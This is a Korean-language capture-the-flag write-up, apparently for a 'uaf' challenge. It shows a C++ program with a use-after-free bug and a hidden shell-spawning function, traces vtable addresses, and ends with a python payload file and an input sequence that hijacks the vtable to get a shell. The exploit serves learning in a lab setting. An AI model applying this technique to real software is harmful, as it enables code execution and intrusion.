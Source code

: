 !!!\#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>private:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void give_shell(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("/bin/sh");</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
protected:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;int age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;string name;</br>
public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "My name is " << name << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am " << age << " years old" << endl</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>};</br>

class Man: public Human{</br>public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Man(string name, int age){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->name = name;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->age = age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human::introduce();</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am a nice guy!" << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>};</br>

class Woman: public Human{</br>public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Woman(string name, int age){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->name = name;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->age = age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human::introduce();</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am a cute girl!" << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
};</br>

int main(int argc, char\* argv[]){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human* m = new Man("Jack", 25);</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human* w = new Woman("Jill", 21);</br>

        size_t len;	
	char* data;</br>
	unsigned int op;</br>
	while(1){</br>
		cout << "1. use\n2. after\n3. free\n";</br>
		cin >> op;</br>

		switch(op){</br>
			case 1:</br>
				m->introduce();</br>
				w->introduce();</br>
				break;</br>
			case 2:</br>
				len = atoi(argv[1]);</br>
				data = new char[len];</br>
				read(open(argv[2], O_RDONLY), data, len);</br>
				cout \<< "your data is allocated" << endl;</br>
				break;</br>
			case 3:</br>
				delete m;</br>
				delete w;</br>
				break;</br>
			default:</br>
				break;</br>
		}</br>
	}</br>
</br>
	return 0;	</br>
}</br>
</br>


처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
